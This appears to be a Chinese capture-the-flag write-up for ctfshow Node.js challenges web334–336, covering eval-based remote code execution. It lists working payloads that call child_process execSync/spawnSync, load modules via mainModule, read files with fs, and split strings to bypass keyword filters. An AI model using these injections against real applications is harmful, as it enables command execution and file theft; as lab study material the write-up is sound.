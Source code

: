 https://na0h.cn/2021/09/08/ctfshow-nodejs/

https://tari.moe/2021/05/04/ctfshow-nodejs/



### web334 大小写特性

略

### web335-336 RCE

> Node.js中的chile_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令。在eval函数的参数中可以构造require('child_process').exec('');来进行调用。

发现返回的是 [object Object]

查看文档：

[child_process 子进程 | Node.js API 文档 (nodejs.cn)](http://nodejs.cn/api/child_process.html#child_processexeccommand-options-callback)

发现exec返回的是

![](https://img-blog.csdnimg.cn/bcd70f18cb2d471da1b7ce45f4a9b10a.png#pic_center)
通过查找所有可替换用法

 `execSync`

![](https://s2.loli.net/2022/01/09/mp7T8VjFqxew4vR.png)

 `spawnSync`

注意：`child_process.spawnSync(command[, args][, options])`

![](https://s2.loli.net/2022/01/09/H3pCLOvwXBV69Po.png)

几种常用的payload:

```js
?eval=require('child_process').execSync('cat fl00g.txt');
?eval=require('child_process').spawnSync('cat',['fl00g.txt']).output;
?eval=global.process.mainModule.constructor._load('child_process').execSync('cat fl00g.txt');

文件操作
?eval=require('fs').readdirSync('.');
?eval=require('fs').readFileSync('fl001g.txt');

法三 拼接
'+' 要urlencode一下
?eval=var a="require('child_process').ex";var b="ecSync('ls').toString();";eval(a%2Bb); 
?eval=require('child_process')['ex'%2B'ecSync']('cat f*')
```

[Node.js 文件系统模块 (nodejs.cn)](http://nodejs.cn/learn/the-nodejs-fs-module)

![](https://img-blog.csdnimg.cn/128a8a59555a4938a35dd05c09984d0e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
